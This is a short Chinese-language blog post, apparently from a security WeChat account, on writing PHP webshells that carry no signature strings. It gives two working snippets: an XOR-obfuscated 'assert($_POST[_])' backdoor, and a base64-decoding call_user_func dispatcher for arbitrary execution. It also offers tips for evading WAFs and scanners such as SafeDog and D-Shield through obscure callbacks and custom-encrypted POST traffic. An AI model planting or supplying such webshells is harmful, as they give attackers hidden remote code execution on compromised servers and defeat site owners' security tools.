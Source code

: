 对于无特征马这里我的意思是 无字符特征

1.  利用异或, 编码等方式 例如 p 神博客的

```
<?php
$_=('%01'^'`').('%13'^'`').('%13'^'`').('%05'^'`').('%12'^'`').('%14'^'`'); // $_='assert';
$__='_'.('%0D'^']').('%2F'^'`').('%0E'^']').('%09'^']'); // $__='_POST';
$___=$$__;
$_($___[_]); // assert($_POST[_]);
```

1.  利用正则匹配字符 如 Tab 等 然后转换为字符

1.  利用 POST 包获取关键参数执行 例如

```
<?php
$decrpt = $_POST['x'];
$arrs = explode("|", $decrpt)[1];
$arrs = explode("|", base64_decode($arrs));
call_user_func($arrs[0],$arrs[1]);
?>
```

在 php7.1 后面我们已经不能使用强大的 assert 函数了用 eval 将更加注重特殊的调用方法和一些字符干扰, 后期大家可能更加倾向使用大马

可以偷偷介绍下我的公众号吗 aleenzz (404 安全)

对于安全狗杀形，d 盾杀参的思路来绕过。生僻的回调函数, 特殊的加密方式, 以及关键词的后传入都是不错的选择。  
对于关键词的后传入对免杀安全狗，d 盾，河马 等等都是不错的，后期对于菜刀的轮子，也要走向高度的自定义化  
用户可以对传出的 post 数据进行自定义脚本加密，再由 webshell 进行解密获取参数，那么以现在的软 WAF 查杀能力  
几乎为 0，安全软件也需要与时俱进了。